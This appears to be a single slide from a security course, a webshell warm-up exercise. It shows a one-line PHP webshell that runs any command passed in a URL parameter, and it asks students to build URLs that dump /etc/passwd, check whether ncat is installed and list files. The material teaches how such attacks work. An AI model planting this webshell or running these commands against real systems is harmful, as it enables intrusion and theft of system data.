

# Webshell Warm-Up Review
Suppose the following PHP webshell lives at https://vulnerable.site/shell.php

<?php
  echo system($_GET["command"]);
?>

How would you construct a URL to:
Dump /etc/passwd?

Determine if ncat is installed?

List all files in the current directory?